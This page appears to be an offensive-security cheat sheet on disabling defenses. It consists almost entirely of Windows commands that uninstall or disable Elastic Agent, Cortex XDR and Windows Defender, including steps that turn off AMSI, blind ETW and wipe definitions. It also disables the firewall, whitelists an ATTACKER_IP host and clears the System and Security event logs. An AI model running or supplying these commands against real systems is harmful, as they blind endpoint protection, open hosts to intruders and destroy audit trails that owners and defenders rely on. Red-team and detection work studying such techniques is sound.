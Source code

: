 # ⭕ Disabling Defenses

{% embed url="https://github.com/ayeskatalas/Sophos-Removal-Tool" %}

{% embed url="https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html" %}

## <mark style="color:red;">Elastic</mark>

{% embed url="https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html" %}

```
cd "C:\Program Files\Elastic\Agent\"
PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
Elastic Agent has been uninstalled.
```

## <mark style="color:red;">Cortex XDR</mark>

```
# Global uninstall password: Password1
Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
Look for PasswordHash, PasswordSalt or password, salt strings.

# Disable Cortex: Change the DLL to a random value, then REBOOT
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

# Disables the agent on startup (requires reboot to work)
cytool.exe startup disable

# Disables protection on Cortex XDR files, processes, registry and services
cytool.exe protect disable

# Disables Cortex XDR (Even with tamper protection enabled)
cytool.exe runtime disable

# Disables event collection
cytool.exe event_collection disable
```

## <mark style="color:red;">Windows Defender</mark>

```
# Disable Defender
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true

## Exclude a process / location
Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
Add-MpPreference -ExclusionPath C:\Video, C:\install

# Disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
# Disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# Blind ETW Windows Defender: zero out registry values corresponding to its ETW sessions
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

# Wipe currently stored definitions
# Location of MpCmdRun.exe: C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware platform version>
MpCmdRun.exe -RemoveDefinitions -All

# Remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## <mark style="color:red;">Windows Firewall</mark>

```
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```

## <mark style="color:red;">Clear System and Security Logs</mark>

```
cmd.exe /c wevtutil.exe cl System
cmd.exe /c wevtutil.exe cl Security
```
